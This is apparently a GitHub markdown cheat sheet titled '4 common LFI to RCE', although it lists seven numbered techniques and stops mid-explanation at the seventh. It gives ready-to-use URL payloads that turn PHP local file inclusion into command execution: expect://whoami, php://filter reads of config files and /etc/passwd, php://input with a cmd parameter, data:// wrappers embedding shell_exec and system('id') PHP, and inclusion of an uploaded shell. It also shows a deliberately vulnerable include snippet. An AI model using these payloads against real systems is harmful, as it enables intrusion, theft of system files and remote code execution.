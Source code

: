 # 4 common LFI to RCE
---

## 1. Using file upload forms/functions
upload a shell,  then
```
http://example.com/index.php?page=path/to/uploaded/file.php
```

## 2. Using the PHP wrapper expect://command
if the app use an include:
```
<?php  
include $_GET['page'];  
?>  
```
```
http://target.com/index.php?page=expect://whoami  
```
## 3. Using php wrapper file://
```
http://localhost/include.php?page=file:///path/to/file.ext
```
## 4. Using the PHP wrapper php://filter
```
http://localhost/include.php?page=php://filter/convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/read=convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/resource=/etc/passwd
```
## 5. Using PHP input:// stream
POST
```
/fi/?page=php://input&cmd=ls
```
## 6. Using data://text/plain;base64,command
```
data://text/plain;base64,[command encoded in base64]
or
data://text/plain,<?php shell_exec($_GET['cmd']);?>  
```
ex:
```
http://example.com/Keeper.php?page=data://text/plain;base64,JTNDJTNGc3lzdGVtJTI4JTI3aWQlMjclMjklM0IlM0YlM0U=  
http://example.com/Keeper.php?page=data://text/plain,<?system('id');?>  
```
## 7. Using /proc/self/environ
Another popular technique is to manipulate the Process Environ file. In a nutshell, when a process is created and has an open file handler then a file descriptor will point to that requested file.
